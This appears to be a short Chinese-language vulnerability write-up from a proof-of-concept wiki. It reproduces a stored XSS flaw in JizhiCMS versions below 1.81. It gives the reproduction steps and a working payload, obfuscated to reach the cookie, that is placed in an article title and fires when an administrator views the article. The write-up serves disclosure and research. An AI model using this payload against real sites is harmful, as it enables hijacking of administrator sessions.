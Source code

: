 # 极致CMS 1.81以下版本 存储型XSS

### 漏洞复现

登录管理员添加模块

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jizhi-1.png)

注册用户

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jizhi-2.png)

点击发布文章

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jizhi-3.png)

在文章标题处插入xss payload

```<details open ontoggle= confirm(document[`coo`+`kie`])>```

当管理员访问时XSS成功

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jizhi-4.png)



### 参考

[极致CMS代码审计](https://xz.aliyun.com/t/7861)